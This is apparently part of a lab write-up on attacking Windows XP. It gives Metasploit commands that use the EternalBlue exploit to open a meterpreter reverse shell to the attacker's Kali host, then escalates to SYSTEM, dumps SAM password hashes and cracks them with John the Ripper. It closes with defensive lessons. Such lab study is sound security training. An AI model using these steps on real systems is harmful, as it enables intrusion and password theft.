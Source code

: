 ## **Part 2: Windows XP Exploitation & Password Cracking**

### **Objective**
To exploit a known vulnerability in Windows XP, gain remote access, extract password hashes from the SAM database, and crack them.

### **Methodology & Steps**

#### **1. Vulnerability Identification**
*   Windows XP is end-of-life and contains numerous unpatched vulnerabilities.
*   The `ms17-010` EternalBlue exploit was selected for its reliability against unpatched systems.

#### **2. Gaining Access with Metasploit**
1.  **Start Metasploit:** Launched `msfconsole` on Kali.
2.  **Configure the Exploit:**
    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOSTS <Windows_XP_IP>
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST <Kali_IP>
    ```
3.  **Launch the Exploit:**
    ```bash
    exploit
    ```
4.  **Result:** The exploit was successful, and a `meterpreter` session was opened, providing full command-line access to the Windows XP system.

#### **3. Post-Exploitation & Hash Dumping**
1.  From the active `meterpreter` session, privileges were escalated to `SYSTEM` using the `getsystem` command.
2.  The hashes were dumped from the Security Account Manager (SAM) database using the `hashdump` command.
3.  The hashes (in LM:NTLM format) were saved to a file on the Kali machine.

#### **4. Cracking the Windows Hashes**
The NTLM hashes were cracked using John the Ripper.
*   **Dictionary Attack:**
    ```bash
    john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt win_hashes.txt
    ```
    *   **Result:** The weak Administrator password was successfully cracked, revealing the plaintext password.

### **Findings & Results**
*   **Outdated systems are extremely vulnerable.** A known, patchable vulnerability from 2017 provided complete system control.
*   The `meterpreter` shell is a powerful post-exploitation tool that allows for easy extraction of sensitive system data like password hashes.
*   **Defensive Takeaway:**
    1.  **Patch Management:** This entire attack is prevented by applying security updates. Keeping systems patched is the single most important security practice.
    2.  **Strong Passwords:** Even after exploitation, strong passwords (long, complex, unique) can prevent an attacker from easily cracking hashes and moving laterally.
    3.  **Network Segmentation:** Isolating critical or older systems can prevent an attacker from easily reaching them.

---